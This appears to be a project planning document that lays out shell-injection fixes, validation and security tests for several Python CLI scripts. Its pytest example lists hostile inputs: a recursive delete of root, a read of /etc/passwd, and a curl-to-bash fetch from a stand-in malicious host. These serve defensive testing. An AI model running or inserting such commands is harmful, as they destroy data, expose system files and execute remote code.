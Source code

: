 
## 🔧 IMPLEMENTATION STRATEGY

### Phase 1: Immediate Fixes (Current CLI Work)
1. **spawn_orc.py security** (1-2 days)
   - Implement `shlex.quote()` for all user inputs
   - Add input validation with regex patterns
   - Create security test cases

2. **spawn.py validation** (1-2 days)
   - Implement Pydantic validation models
   - Add briefing content filtering
   - Validate working directory paths

3. **team_compose.py sanitization** (1 day)
   - Add project name validation
   - Implement safe template replacement
   - HTML escape all user inputs

### Phase 2: Testing & Validation (Parallel)
```python
# Add to test suite
def test_shell_injection_prevention():
    malicious_inputs = [
        "; rm -rf / #",
        "`cat /etc/passwd`",
        "$(whoami)",
        "profile; curl malicious.com/steal | bash"
    ]

    for malicious_input in malicious_inputs:
        with pytest.raises(click.BadParameter):
            spawn_orc(profile=malicious_input, terminal="auto",
                     no_launch=True, no_gui=False)
```

## 📋 INTEGRATION CHECKLIST

### Security Requirements (Must Complete)
- [ ] All user inputs validated with regex patterns
- [ ] Shell commands use `shlex.quote()` for escaping
- [ ] Pydantic models validate complex inputs
- [ ] HTML escaping for template content
- [ ] Security test cases added for injection vectors

### CLI Modernization Compatibility
- [ ] Maintain existing CLI interface contracts
- [ ] Preserve JSON output support where implemented
- [ ] Keep error message consistency
- [ ] Ensure backward compatibility for automation
